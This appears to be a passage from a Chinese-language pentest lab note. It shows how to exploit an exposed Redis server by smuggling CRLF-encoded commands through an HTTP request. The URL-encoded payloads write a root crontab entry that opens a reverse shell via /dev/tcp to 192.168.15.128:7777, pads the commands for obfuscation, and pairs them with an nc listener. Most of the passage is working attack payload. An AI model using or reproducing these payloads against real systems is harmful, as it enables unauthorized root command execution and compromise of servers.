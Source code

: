 ```
将所有%0A替换成%0D%0A（Redis协议以 CRLF 结尾（即“\r\n”））
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.15.128%2F7777%200%3E%261'%20%5Cn%5Cn%5Cn%5Cn%22%20%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

```
一般情况下，会在末尾处做混淆也会加%0D%0A.
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.15.128%2F7777%200%3E%261'%20%5Cn%5Cn%5Cn%5Cn%22%20%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0Alalala
```

```
生成最后的payload，以redis协议发送让其执行命令。
其中可能疑惑的点在于/test是哪来的，其实这个可以随便填，加上%0D%0A%0D%0A是用于混淆。
http://172.21.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.15.128%2F7777%200%3E%261'%20%5Cn%5Cn%5Cn%5Cn%22%20%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0Alalala
```

```
kali进行监听
nc -lvvp 7777
```

![image-20241122150028853](中间件漏洞/image-20241122150028853.png)	

```
抓包发送payload，根据response回包，也可以发现发给redis服务器的内容是没问题的。
```
